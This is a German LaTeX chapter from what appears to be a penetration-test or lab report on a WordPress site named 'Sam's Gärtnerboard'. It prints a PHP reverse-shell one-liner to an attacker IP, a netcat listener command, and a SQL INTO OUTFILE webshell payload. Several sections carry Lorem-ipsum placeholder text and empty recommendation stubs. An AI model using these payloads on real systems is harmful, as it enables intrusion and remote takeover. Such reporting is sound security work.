\pagebreak
\chapter{Sam's Gärtnerboard}
Die Webanwendung ist eine Wordpress-Anwendung für Personen zum Austausch über 
\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/screenshots/05_sams_gaertnerborad.png}
    \caption{Webanwendung Sam's Gärtnerboard}
    \label{fig:03_sam}
\end{figure}
\newpage

\cvss{av=local, ac=high, pr=high, ui=required, s=unchanged, c=low, i=low, a=low}
\cvssdescription{Etiam risus sapien, ornare at dui ut, semper eleifend arcu. In fermentum felis ut ornare convallis. Donec ultrices condimentum neque ut semper.}

\section{\makecvssbadge Sam's Gärtnerboard: Schwache Authentifizierung}
\cvssaddtosummary{Sam's Gärtnerboard: Schwache Authentifizierung} 

\subsection*{Proof of concept}
Aus der Webanwendung sind bereits Nutzernamen bekannt. Mit einer Brute-Force Attacke auf den Admin Nutzer frodo kann ein Admin-Zugriff auf die Webanwendung erlangt werden. Mit diesem Zugang, kann das Plugin "Advanced File Manager" der Webanwendung hinzugefügt werden, was es ermöglicht eine PHP-Datei hochzuladen. In dieser PHP-Datei wird eine Webshell integriert, welche dann unter der URL \texttt{http://10.0.68.107/webshell.php} erreichbar ist. Mit dieser Webshell kann wieder eine Reverse Shell für den Angreifer erstellt werden.

Dieser Webanwendung liegt eine Datenbank zugrunde welche auch kompromitiert werden kann. In der Datei \texttt{wp-config.php} können die Credentials für den Zugriff auf den Datenbankserver erlangt werden. Per SSH kann sich nun auf den Datenbankserver geschalten werden. Mit dem folgenden SQL-Befehl kann auch auf diesen Webserver eine Webshell hochgeladen werde, welche durch eine Reverse Shell mit dem Kommando ... umgewandelt werden kann.

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/proofs/03_sam_proof.png}
    \caption{Proof für die Webanwendung Sam's Gärtnerboard}
    \label{fig:03_sam_proof}
\end{figure}

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/proofs/03_sam_db_proof.png}
    \caption{Proof für die Datenbank zur Webanwendung Sam's Gärtnerboard}
    \label{fig:03_sam_db_proof}
\end{figure}

\subsection*{Empfehlungen} Stärkere Passwort Richtlinien \cite{bsi_passwords}, Credentials für den Datenbankzugriff nicht als Klartext speichern, lieber verschlüsselt und als Key-Datei. Escaping von php code oder ähnlichem für die Datenbank. Verhindern von hinzufügen neuer Plugins, durch 2FA oder ähnlichem. Wordpress aktuelle Version verwenden, Plugins auch aktuell halten!

\cvss{av=local, ac=low, pr=none, ui=required, s=changed, c=low, i=low, a=low}
\cvssdescription{Etiam risus sapien, ornare at dui ut, semper eleifend arcu. In fermentum felis ut ornare convallis. Donec ultrices condimentum neque ut semper.}

\section{\makecvssbadge Sam's Gärtnerboard: Unsichere Dateiverwaltung}
\cvssaddtosummary{Sam's Gärtnerboard: Unsichere Dateiverwaltung} 

\subsection*{Proof of concept}
Durch den zuvor erlangten Admin-Zugriff konnten Einstellungen an der Wordpress-Anwendungen durchgeführt werden. Dadurch konnte der Anwendung das Wordpress-Plugin "Advanced File Manager" hinzugefügt werden. Mit diesem Plugin ist es möglich auf der Konfigrationsseite der WP-Anwendung wie in einem Datei-Explorer Dateien der Anwendung durchsuchen und neue Dateien hochzuladen. 

\subsection*{Empfehlungen}
Empfehlungen

\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Etiam risus sapien, ornare at dui ut, semper eleifend arcu. In fermentum felis ut ornare convallis. Donec ultrices condimentum neque ut semper.}

\section{\makecvssbadge Sam's Gärtnerboard: Upload einer Webshell}
\cvssaddtosummary{Sam's Gärtnerboard: Upload einer Webshell} 

\subsection*{Proof of concept}
Durch den erlangten Admin-Zugriff und das Hinzufügen des WP-Plugins "Advanced File Manager" konnte eine PHP Webshell in das Verzeichnis der Webanwendunge hochgeladen werden. Dadurch ist diese Webshell und der URL \url{http://10.0.68.197/webshell.php} erreichbar. 

\subsection*{Empfehlungen}
Empfehlungen

\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Etiam risus sapien, ornare at dui ut, semper eleifend arcu. In fermentum felis ut ornare convallis. Donec ultrices condimentum neque ut semper.}

\section{\makecvssbadge Sam's Gärtnerboard: Reverse Shell und Remote Code Execution (RCE)}
\cvssaddtosummary{Sam's Gärtnerboard: Reverse Shell und Remote Code Execution (RCE)} 

\subsection*{Proof of concept}
Über die hochgeladenen Webshell kann eine Reverse Shell initiiert werden. Dafür muss zunächst ein Netcat-Listener auf dem Angreifer-System mit dem Befehl \texttt{nc -lvp 9001} gestartet werden. Mit dem Befehl aus \autoref{listing:sams-gaertnerboard:reverse-shell} kann sich die Shell auf dem Netcat-Listener verbinden. 


\begin{listing}[!ht]
\begin{minted}{bash}
php -r '\$sock=fsockopen("10.0.32.2",9001);exec("/bin/sh -i <\&3 >\&3 2>\&3");'
\end{minted}
\caption{Reverse Shell}
\label{listing:sams-gaertnerboard:reverse-shell}
\end{listing}

\subsection*{Empfehlungen}
Empfehlungen

\cvss{av=local, ac=low, pr=none, ui=required, s=changed, c=low, i=low, a=low}
\cvssdescription{Etiam risus sapien, ornare at dui ut, semper eleifend arcu. In fermentum felis ut ornare convallis. Donec ultrices condimentum neque ut semper.}

\section{\makecvssbadge Sam's Gärtnerboard: Klartext-Datenbankzugang}
\cvssaddtosummary{Sam's Gärtnerboard: Klartext-Datenbankzugang} 

\subsection*{Proof of concept}
Durch den zuvor erlangten administrativen Zugriff auf die Webanwendung "Sams's Gärtnerboard" konnten die Zugangsdaten für den Zugriff auf die dazugehörige Datenbank erlangt werden. Diese befinden sich in der Datei \texttt{wp-config.php}. Die Credentials liegen im Klartext vor und sind nicht verschlüsselt.

\subsection*{Empfehlungen}
Empfehlungen


\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Etiam risus sapien, ornare at dui ut, semper eleifend arcu. In fermentum felis ut ornare convallis. Donec ultrices condimentum neque ut semper.}

\section{\makecvssbadge Sam's Gärtnerboard-DB: Upload einer Webshell}
\cvssaddtosummary{Sam's Gärtnerboard-DB: Upload einer Webshell} 

\subsection*{Proof of concept}
Mit den zuvor erlangten Credentials für den Zugriff auf Server kann eine SSH-Verbindung erstellt werden. Der Datenbank-Server ist ein SQL-Server. Dadurch kann über den SQL Befehl aus \autoref{listing:sams-gaertnerboard-db:webshell-sql} eine Webshell auf dem Datenbankserver hinterlegt werden. Diese Webshell ist dadurch unter der URL \url{http://10.0.68.108/web-shell.php} erreichbar.

\begin{listing}[!ht]
\begin{minted}{sql}
Select '<?php system($_REQUEST["cmd"]); ?>' into outfile '/var/www/html/web-shell.php';
\end{minted}
\caption{Webshell upload über SQL-Befehl}
\label{listing:sams-gaertnerboard-db:webshell-sql}
\end{listing}
\subsection*{Empfehlungen}
Empfehlungen

\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Etiam risus sapien, ornare at dui ut, semper eleifend arcu. In fermentum felis ut ornare convallis. Donec ultrices condimentum neque ut semper.}

\section{\makecvssbadge Sam's Gärtnerboard DB: Reverse Shell und Remote Code Execution (RCE)}
\cvssaddtosummary{Sam's Gärtnerboard DB: Reverse Shell und Remote Code Execution (RCE)} 

\subsection*{Proof of concept}
Über die hochgeladenen Webshell kann eine Reverse Shell initiiert werden. Dafür muss zunächst ein Netcat-Listener auf dem Angreifer-System mit dem Befehl \texttt{nc -lvp 9001} gestartet werden. Mit dem Befehl aus \autoref{listing:sams-gaertnerboard:reverse-shell} kann sich die Shell auf dem Netcat-Listener verbinden. 

\subsection*{Empfehlungen}
Empfehlungen
